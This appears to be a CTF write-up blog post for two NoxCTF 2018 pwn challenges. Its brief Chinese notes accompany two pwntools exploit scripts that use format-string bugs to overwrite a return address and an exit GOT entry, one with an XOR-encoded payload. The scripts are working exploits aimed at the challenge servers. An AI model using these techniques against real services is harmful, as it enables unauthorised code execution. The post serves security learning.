 ```yaml
---
title: easy_fmtstr_of_Noxctf
date: 2018-09-11 12:47:01
tags: fmtstr pwn
layout: post
---
```

two easy challenge of fmtstr
<!--more-->
# Noxctf(Some easy pwn challenges)

# believeMe
简单的格式化字符串 仅限制了长度
题目提示了未开ASLR 直接控制返回地址
```python
from pwn import *
#context.log_level="debug"
#p=process("./believeMe")
p=remote("18.223.228.52",13337)
p.readuntil("????")
nox=0x804867b
stack=0xffffdd30-0x4
payload=p32(stack)+p32(stack+2)+"%034419c"+"%9$hn"+"%033161c"+"%10$hn"
assert(len(payload)<39)
p.send(payload)
p.interactive()
``` 

# The name Calculator
限制长度并对输入进行简单xor之后调用printf(input)
```python
from pwn import *
p=process("./CAL")
p=remote("chal.noxale.com",5678)
p.readuntil("name?\n")

sh=0x8048596
exit_got=0x804a024#8048476
payload=p32(0x804A04C)+p32(exit_got)
p.send(payload.ljust(28)+p32(0x6A4B825))
p.readuntil("please\n")
db=0xdeadbeef

p0="%34198c%28$hn%27$n".ljust(24)
p1=u32(p0[0:4])
p2=u32(p0[4:8])
p3=u32(p0[8:12])
p4=u32(p0[12:16])
p5=u32(p0[16:20])
p6=u32(p0[20:24])
offset=12
raw=p32(p1^0x36691253)+p32(p2^0x36363636)+p32(p3^0x36363636)+p32(p4^0x36363636)+p32(p5^0x36363636)+p32(p6^0x65363636)
raw=raw.ljust(0x1c)
p.sendline(raw)
p.interactive()

```